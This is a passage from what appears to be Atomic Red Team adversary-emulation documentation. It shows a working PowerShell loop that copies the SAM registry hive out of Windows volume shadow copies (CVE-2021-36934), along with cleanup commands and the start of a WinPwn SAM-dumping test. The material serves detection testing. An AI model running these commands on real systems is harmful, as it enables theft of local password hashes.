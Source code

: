 #### Cleanup Commands:
```cmd
for /L %a in (1,1,#{limit}) do @(del %temp%\#{target_hive}vss%a >nul 2>&1)
```





<br/>
<br/>

## Atomic Test #6 - dump volume shadow copy hives with System.IO.File
Dump hives from volume shadow copies with System.IO.File. [CVE-2021-36934](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-36934)

**Supported Platforms:** Windows


**auto_generated_guid:** 9d77fed7-05f8-476e-a81b-8ff0472c64d0





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| target_hive | Hive you wish to dump | string | SAM|
| limit | Limit to the number of shadow copies to iterate through when trying to copy the hive | integer | 10|


#### Attack Commands: Run with `powershell`! 


```powershell
1..#{limit} | % { 
 try { [System.IO.File]::Copy("\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy$_\Windows\System32\config\#{target_hive}" , "$env:TEMP\#{target_hive}vss$_", "true") } catch {}
 ls "$env:TEMP\#{target_hive}vss$_" -ErrorAction Ignore
}
```

#### Cleanup Commands:
```powershell
1..#{limit} | % {
  rm "$env:TEMP\#{target_hive}vss$_" -ErrorAction Ignore
}
```





<br/>
<br/>

## Atomic Test #7 - WinPwn - Loot local Credentials - Dump SAM-File for NTLM Hashes
Loot local Credentials - Dump SAM-File for NTLM Hashes technique via function of WinPwn
